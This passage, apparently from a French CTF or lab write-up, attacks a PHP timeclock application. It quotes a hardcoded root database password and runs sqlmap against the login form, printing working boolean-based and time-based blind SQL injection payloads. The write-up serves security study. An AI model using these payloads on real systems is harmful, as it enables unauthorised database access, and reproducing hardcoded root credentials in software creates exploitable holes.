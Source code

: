 ```
     3677  2018-10-24 01:38   edit_entry.php
     2615  2018-10-24 01:39   edit_period.php
     1453  2018-10-24 01:40   edit_type.php
     2775  2018-10-24 01:40   edit_user.php
     1780  2018-10-24 01:23   index.php
     1069  2018-10-24 01:25   login.php
    17208  2006-05-03 00:07   readme.htm
     1999  2018-10-24 01:24   time_entry.php
     1953  2018-10-24 01:24   time_periods.php
     1557  2018-10-24 01:24   time_types.php
      735  2006-05-02 21:27   timeapp.css
     2277  2006-05-03 00:04   timeclock.sql
     1823  2018-10-24 01:24   users.php
     1787  2018-10-24 01:24   view_data.php
     3126  2018-10-24 01:25   view_entry.php
---------                     -------
    63838                     28 files
```

A regarder le code de chacun de ces scripts, ceux-ci sont bourrés de vulnérabilités, c'est [le DADV](https://www.youtube.com/watch?v=BVfPV8jfh-4) de la faille SQL.  

La configuratin de la base de données se situe dans le script *db.php*.  

```php
$db = mysqli_connect("172.31.20.10", "root", "anchordb", "timeclock");
```

Il n'y a pas de manquement à l'authentification (on est correctement redirigés vers la page de login si non connecté) mais la page de login fait partie des scripts faillibles.  

```
$ python sqlmap.py -u "http://192.168.1.50:8115/timeclock/index.php"  --data "username=admin&password=ee&submit=Log+In" --dbms mysql --level 5 --risk 3

sqlmap identified the following injection point(s) with a total of 813 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=admin%' AND 2271=(SELECT (CASE WHEN (2271=2271) THEN 2271 ELSE (SELECT 8293 UNION SELECT 8771) END))-- -&password=ee&submit=Log In

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin%' AND (SELECT 9416 FROM (SELECT(SLEEP(5)))ASLP) AND 'WVuj%'='WVuj&password=ee&submit=Log In
---
[15:12:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29, PHP
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```
